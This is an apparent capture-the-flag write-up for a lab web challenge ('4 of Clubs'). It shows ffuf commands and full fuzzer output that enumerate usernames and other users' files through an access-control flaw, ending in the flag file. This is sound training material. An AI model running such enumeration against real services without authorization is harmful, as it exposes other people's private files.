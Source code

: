 # 4 of Clubs | Port 15010
Go to **http://{Target-IP}:15010**

![Index page of **http://{Target-IP}:15010**](4clubs/1.png)

**Register** a user and **log in**.

![The user's My Files page](4clubs/2.png)

You will be redirected to the **My Files** page where you can upload files.

Uploading a file called userlist.txt resulted in a file called userlist being saved to the **/users/{username}/files/** directory.

![My Files page with link to uploaded file.](4clubs/3.png)


When navigating to **/users/test/files** we are redirected to the **My Files** page.

What happens if we try with another user, such as **test2**?

![Not found response.](4clubs/4.png)

We are presented with a "Not found" response.

How about if we try a username which likely exists, such as "**admin**"?

When trying to access **/users/admin/files**, we are redirected back to our **My Files** page.

This unique behaviour means the username likely exists, which means we can try fuzzing the **users** directory for other users, or try fuzzing admin's **files** directory for files.

To fuzz for files, we will first need to obtain the cookie data and User-Agent header for our fuzz requests.

*Note: (The User-Agent header was discovered as a requisite through trial-and-error with the fuzzer tool.)*

This was done by intercepting a request to **{Target-IP}/users/admin/files/test** with BurpSuite.

![Intercepting target machine port 15010 /users/admin/files/test ](4clubs/5.png)

ffuf was then used to fuzz the target:

`ffuf -w {wordlist} -u http://{Target-IP}:15010/users/admin/files/FUZZ -b "{cookie} -t 10 -H "{User-Agent}"`

```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://127.0.0.1:15010/users/admin/files/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
 :: Header           : Cookie: rack.session=BAh7CUkiD3Nlc3Npb25faWQGOgZFVG86HVJhY2s6OlNlc3Npb246OlNlc3Npb25JZAY6D0BwdWJsaWNfaWRJIkU2NDE4ODAxOTM3OTQ4Y2ViMTUwZmZhN2FmMTk5Y2M0YWM1ZTRiMmE0OGQ2ODg5YjBiNTYzZDQxM2ExZGIyNTBlBjsARkkiCWNzcmYGOwBGSSIxaFdjUFh5aGJydGJINEJZaTJzS09KbERiK2RuampKL2hHTHZEd0V1dEVtbz0GOwBGSSINdHJhY2tpbmcGOwBGewZJIhRIVFRQX1VTRVJfQUdFTlQGOwBUSSItZDM3YjRiYWIwYzQ0MjFlYTc3MGU5YTZlMDNiMDI4Yjg0ZDllYzgwNQY7AEZJIg11c2VybmFtZQY7AEZJIgl5ZXNzBjsAVA%3D%3D--7471a96a69593b7ece9b6d8b90611b53611727b6
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

software                [Status: 200, Size: 271953, Words: 1181, Lines: 943]
security                [Status: 200, Size: 387545, Words: 3323, Lines: 1556]
upload                  [Status: 403, Size: 13, Words: 2, Lines: 1]
:: Progress: [207643/207643] :: Job [1/1] :: 93 req/sec :: Duration: [0:37:15] :: Errors: 0 ::
```

![Untitled](4clubs/6.png)

We discovered some new files, but they are just cute pictures of dogs!

However, since we now know we can view other user's files, we can also fuzz for other users.

`ffuf -w {wordlist} -u http://{Target-IP}:15010/users/FUZZ/files/ -b "{cookie} -t 10 -H "{User-Agent}`

```bash

				/'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://127.0.0.1:15010/users/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-words-lowercase.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
 :: Header           : Cookie: rack.session=BAh7CUkiD3Nlc3Npb25faWQGOgZFVG86HVJhY2s6OlNlc3Npb246OlNlc3Npb25JZAY6D0BwdWJsaWNfaWRJIkU2NDE4ODAxOTM3OTQ4Y2ViMTUwZmZhN2FmMTk5Y2M0YWM1ZTRiMmE0OGQ2ODg5YjBiNTYzZDQxM2ExZGIyNTBlBjsARkkiCWNzcmYGOwBGSSIxaFdjUFh5aGJydGJINEJZaTJzS09KbERiK2RuampKL2hHTHZEd0V1dEVtbz0GOwBGSSINdHJhY2tpbmcGOwBGewZJIhRIVFRQX1VTRVJfQUdFTlQGOwBUSSItZDM3YjRiYWIwYzQ0MjFlYTc3MGU5YTZlMDNiMDI4Yjg0ZDllYzgwNQY7AEZJIg11c2VybmFtZQY7AEZJIgl5ZXNzBjsAVA%3D%3D--7471a96a69593b7ece9b6d8b90611b53611727b6
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

admin                   [Status: 403, Size: 13, Words: 2, Lines: 1]
staff                   [Status: 403, Size: 13, Words: 2, Lines: 1]
root                    [Status: 403, Size: 13, Words: 2, Lines: 1]
employee                [Status: 403, Size: 13, Words: 2, Lines: 1]
builder                 [Status: 403, Size: 13, Words: 2, Lines: 1]
```

Four additional users were found.

Fuzzing each of these usernames resulted in a couple more files being found per user, most of which were unimportant.

However, the **employee** user had a file called **fileadmin** **which happened to be the flag!

```bash
:: Method           : GET
 :: URL              : http://127.0.0.1:15010/users/employee/files/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
 :: Header           : Cookie: rack.session=BAh7CUkiD3Nlc3Npb25faWQGOgZFVG86HVJhY2s6OlNlc3Npb246OlNlc3Npb25JZAY6D0BwdWJsaWNfaWRJIkU2NDE4ODAxOTM3OTQ4Y2ViMTUwZmZhN2FmMTk5Y2M0YWM1ZTRiMmE0OGQ2ODg5YjBiNTYzZDQxM2ExZGIyNTBlBjsARkkiCWNzcmYGOwBGSSIxaFdjUFh5aGJydGJINEJZaTJzS09KbERiK2RuampKL2hHTHZEd0V1dEVtbz0GOwBGSSINdHJhY2tpbmcGOwBGewZJIhRIVFRQX1VTRVJfQUdFTlQGOwBUSSItZDM3YjRiYWIwYzQ0MjFlYTc3MGU5YTZlMDNiMDI4Yjg0ZDllYzgwNQY7AEZJIg11c2VybmFtZQY7AEZJIgl5ZXNzBjsAVA%3D%3D--7471a96a69593b7ece9b6d8b90611b53611727b6
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

reports                 [Status: 200, Size: 23, Words: 3, Lines: 2]
upload                  [Status: 403, Size: 13, Words: 2, Lines: 1]
fileadmin               [Status: 200, Size: 169825, Words: 548, Lines: 649]
```

![The fileadmin flag file](4clubs/7.png)

The fileadmin flag file!

```bash
└─$ md5sum fileadmin
1839e6ea9477521edab0a19979d20b29  fileadmin
```